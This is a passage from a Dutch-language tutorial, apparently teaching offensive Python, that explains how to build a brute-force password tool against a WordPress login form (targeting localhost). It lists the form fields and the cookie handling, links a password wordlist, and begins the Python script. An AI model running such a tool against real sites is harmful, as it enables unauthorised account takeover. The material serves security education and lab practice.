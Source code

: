 De inhoud van deze form geeft ons waardevolle informatie:
- De ingevulde formdata wordt gestuurd naar /wp-login.php (dus naar zichzelf) als een HTTP POST 
- Elementen die worden verwacht:
    - log: een variabele die de gebruikersnaam vertegenwoordigt
    - pwd: een variabele voor het wachtwoord
    - wp-submit: de variabele voor de submitknop
    - testcookie (hidden): de variabele voor een test cookie

De server zet ook enkele cookies wanneer je contact maakt met de form, en verwacht deze terug te krijgen wanneer de formdata wordt gepost. Dit gedrag moet worden voorzien wanneer je probeert in te loggen.

We zullen de verplichte cookies afhandelen met de requests library en meer bepaald het Session object. 

De noodzakelijke flow: 
- De login pagina opvragen en alle teruggeven cookies accepteren
- Alle form-elementen uit de HTML parsen
- Gebruikersnaam en wachtwoord: al gissend invullen vanuit onze lijst met mogelijkheden
- Een HTTP Post, inclusief formuliervelden en cookies sturen naar het script dat het inloggen verwerkt
- Testen om te zien of we succesvol zijn kunnen inloggen 

Cain & Abel, een wachtwoord recovery tool, heeft een lijst met wachtwoorden die kunnen gebruikt worden voor een brute-force aanval. Je kan deze hier downloaden: https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Software/cain-and-abel.txt

Repo bevat heel wat nuttige lijstjes voor security toepassingen: https://github.com/danielmiessler/SecLists 

We overlopen de voorbeeldcode van onze tool:

```python
from io import BytesIO
from lxml import etree
from queue import Queue

import requests
import sys
import threading
import time

SUCCESS = 'Welcome to WordPress!'
TARGET = "http://127.0.0.1/wordpress/wp-login.php"
WOORDENLIJST = 'cain-and-abel.txt'


def get_words():
    with open(WOORDENLIJST) as f:
        raw_words = f.read()

    words = Queue()
    for word in raw_words.split():
        words.put(word)
    return words


def get_params(content):
    params = dict()
    parser = etree.HTMLParser()
    tree = etree.parse(BytesIO(content), parser=parser)
    for elem in tree.findall('//input'):
        name = elem.get('name')
        if name is not None:
            params[name] = elem.get('value', None)
    return params
```
